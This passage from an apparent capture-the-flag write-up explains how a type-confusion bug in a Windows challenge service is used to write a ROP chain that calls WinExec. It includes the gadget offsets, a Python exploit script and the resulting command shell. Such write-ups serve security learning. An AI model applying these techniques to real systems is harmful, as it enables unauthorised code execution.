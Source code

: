 Finally, with the overwrite enabled by the type confusion on the "upgrade" function, I can simply write a ROP payload directly to the stack. I chose to use ROP to execute `WinExec`, which is a KERNEL32 function that simply launches the program in the first argument. NTDLL, being a very large binary, provides a wealth of ROP gadgets, including `pop rdx` and `pop rcx` to set the arguments for WinExec.

One confusing point, which took quite some time to track down, is that WinExec writes to the memory *above* the stack pointer. This is apparently normal practice in the Microsoft x86-64 calling convention (callers should allocate 32 bytes on the stack for the callee's use), but being accustomed to Linux exploitation, I was unfamiliar with it:

```
0000000180065f80 <WinExec>:
   180065f80:   mov    rax,rsp
   180065f83:   mov    QWORD PTR [rax+0x10],rbx
   180065f87:   mov    QWORD PTR [rax+0x18],rsi
   180065f8b:   mov    QWORD PTR [rax+0x20],rdi
```

I had been storing the string to execute in that space, which was causing it to get partially overwritten. My solution was simply to ensure my command was less than 16 bytes.

```python
width = make_fake_maze(rip_addr)
menu(7)
s.sendline('y')
s.sendline('0') # walls to remove
s.sendline('y') # multipass with traps
s.sendline('0') # number of traps
s.sendline('12345') # score for traps
s.sendline('n') # do not save

menu(7)
s.sendline('y') # update trap positions
rop = flat([
    ntdll + 0x8c557, # pop rdx; pop r11; ret
    1,
    0,
    ntdll + 0x8fe91, # pop rcx; ret
    rip_addr + 0x30,
    kernel32 + 0x65f80, # WinExec
]) + command
log.info("ropchain: %d of %d allowable bytes", len(rop), width)
s.sendline(rop)
s.sendline()
```

By exiting (menu option 8), `main` will return to the first address in the ROP payload, which kicks off the ROP chain and results in the command being executed via `WinExec`.

### Post-Exploitation

So, now I can run an arbitrary command on the server. First, I tried `cmd.exe`. This surprisingly worked, and gave me a shell - but it was barely usable due to the two process limit and hard memory limit (100Mb, as specified in the `env.txt`). But, luckily, the server is running a recent build of Windows 10 which has PowerShell built-in.
